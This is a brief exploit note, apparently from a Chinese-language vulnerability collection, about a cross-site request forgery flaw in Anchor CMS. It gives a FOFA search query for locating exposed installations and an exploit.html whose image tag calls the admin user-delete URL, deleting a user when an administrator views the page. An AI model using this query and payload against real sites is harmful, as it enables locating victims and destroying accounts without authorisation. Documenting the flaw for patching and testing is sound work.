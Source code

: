 FOFA
----

    "Anchor CMS" && body="themes/default/img/favicon.png"

POC
---

Anchor CMS使用Get方法進行敏感操作，可以使用exploit.html進行刪除用戶等操作。

exploit.html

    <img src="http://target/anchor/index.php/admin/users/delete/21">

當管理員點擊時刪除ID為21的用戶。